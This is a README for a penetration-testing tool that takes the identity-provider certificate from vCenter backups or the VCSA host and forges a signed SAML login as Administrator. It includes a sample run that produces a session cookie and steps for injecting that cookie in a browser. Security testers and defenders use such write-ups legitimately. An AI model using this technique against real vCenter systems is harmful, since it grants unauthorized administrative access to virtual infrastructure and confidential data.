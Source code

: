 # vCenter SAML Login Tool
A tool to extract the Identity Provider (IdP) cert from vCenter backups and log in as Administrator

## Background
Commonly, during engagements, we will gain access to vCenter backups on a fileserver or gain root access to the VCSA host through recent CVEs. Logging into the vCenter vSphere UI allows us to easily gain access to more systems, confidential information, as well as show customers the impact of these findings.

The data.mdb file contains the certificates and can be found within vCenter backups as well as on the VCSA host with root permissions. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://\<VCSA>\/ui, add the cookie under the /ui path, and re-browse to https://\<VCSA\>/ui. 

## Demonstration
![](vcenter.gif)

# Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
